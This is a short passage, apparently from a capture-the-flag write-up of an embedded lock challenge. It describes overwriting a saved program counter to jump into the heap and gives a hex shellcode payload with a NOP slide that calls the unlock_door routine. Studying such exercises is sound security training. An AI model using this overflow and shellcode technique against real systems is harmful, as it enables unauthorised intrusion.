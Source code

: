In the end I tried to make a shell code. I copied the instructions in
unlock\_door:

\begin{verbatim}
3012 7f00 b012 b646 fd3f
\end{verbatim}

And I pointed the saved pc to the heap (which is supposed to be
non-executable on a protected system but here it worked!).

Also, to counter the overwritting problem I made a NOP slide. Here's the
solution:

\texttt{909090909090 3012 7f00 b012 b646 fd3f 0e24 9a43}
